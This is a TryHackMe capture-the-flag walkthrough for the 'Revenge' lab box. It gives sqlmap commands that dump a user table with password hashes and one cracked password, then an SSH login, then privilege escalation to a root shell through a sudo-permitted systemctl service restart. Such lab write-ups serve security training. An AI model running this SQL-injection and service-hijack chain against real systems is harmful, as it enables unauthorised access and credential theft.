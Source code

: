 In this walkthrough, we'll go over a challenge (intermediate) level box called ***Revenge*** on [TryHackMe](https://tryhackme.com/room/revenge)

![Revenge](revengeIP.png)

Let's start the scanning process with nmap. The IP address would be different when you deploy it:
```bash
nmap -sTV -n -sC -T4 -p- 10.10.90.135 --open
```
We see that a bunch of ports are open:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-19 09:22 EDT
Nmap scan report for 10.10.90.135
Host is up (0.32s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 72:53:b7:7a:eb:ab:22:70:1c:f7:3c:7a:c7:76:d9:89 (RSA)
|   256 43:77:00:fb:da:42:02:58:52:12:7d:cd:4e:52:4f:c3 (ECDSA)
|_  256 2b:57:13:7c:c8:4f:1d:c2:68:67:28:3f:8e:39:30:ab (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Home | Rubber Ducky Inc.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.75 seconds
```
![Revenge index](revenge-index-html.png)

For this challenge, we can use BurpSuite to scan for any type of vulnerability:
![Revenge Burp](revenge-sqli.png)

And BurpSuite identifies a SQL injection vulnerability. We can now use sqlmap to extract more information:

We can pull the banner information `sqlmap -u http://10.10.90.135/products/1`:
![Revenge sqli banner](revenge-sqmap-banner.png)

We can pull the database information `sqlmap -u http://10.10.90.135/products/1 --dbs`:
![Revenge sqli dbs](revenge-sqlmap-dbs.png)

listing available tables `sqlmap -u http://10.10.90.135/products/1 -D duckyinc --tables`:
![Revenge sqli tables](revenge-sqlmap-tables.png)

listing available columns within the user table `sqlmap -u http://10.10.90.135/products/1 -D duckyinc -T user --columns`:
![Revenge sqli columns](revenge-sqlmap-columns.png)

looking into "system_user" table `sqlmap -u http://10.10.90.135/products/1 -D duckyinc -T system_user --columns`:
![Revenge sqli system user](revenge-sqlmap-columns-2.png)

We can now dump all the data from the system_user table `sqlmap -u http://10.10.90.135/products/1 -D duckyinc -T system_user -C _password,email,id,username --dump`:
![Revenge sqli dump system user](revenge-sqlmap-system-user.png)

username | email | password hash | password
----------- | --------- | ------------ | ----------
server-admin | sadmin@duckyinc.org | \$2a\$08\$GPh7KZcK2kNIQEm5byBj1umCQ79xP.zQe19hPoG/w2GoebUtPfT8a | inuyasha
kmotley | kmotley@duckyinc.org | \$2a\$12\$LEENY/LWOfyxyCBUlfX8Mu8viV9mGUse97L8x.4L66e9xwzzHfsQa | 
dhugles | dhughes@duckyinc.org | \$2a\$12\$22xS/uDxuIsPqrRcxtVmi.GR2/xh0xITGdHuubRF4Iilg5ENAFlcK

Since we have a set of valid credentials for server-admin user, we can try to SSH into the machine:
![Revenge foothold](revenge-initial-foothold.png)

We can check what this user can run with "sudo -l" command and we see that server-admin could run /bin/systemct commands as root:
![Revenge sudo -l](revenge-sudo-l.png)

After that we edit "/tec/systemd/system/duckyinc.service"
![Revenge edit service](revenge-edit-service.png)

We can now start a nc listener on port 5555 and on the command line run the following command to relaod and restart the service:
1. `sudo /bin/systemctl enable duckyinc.service`
2. `sudo /bin/systemctl daemon-reload`
3. `sudo /bin/systemctl restart duckyinc.service`

![Revenge root](revenge-root.png)

We now have a shell with the root user privileges.

I hope you enjoyed this walkthrough.

[<= Go Back to TryHackMe Walkthroughs](TryHackMeWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
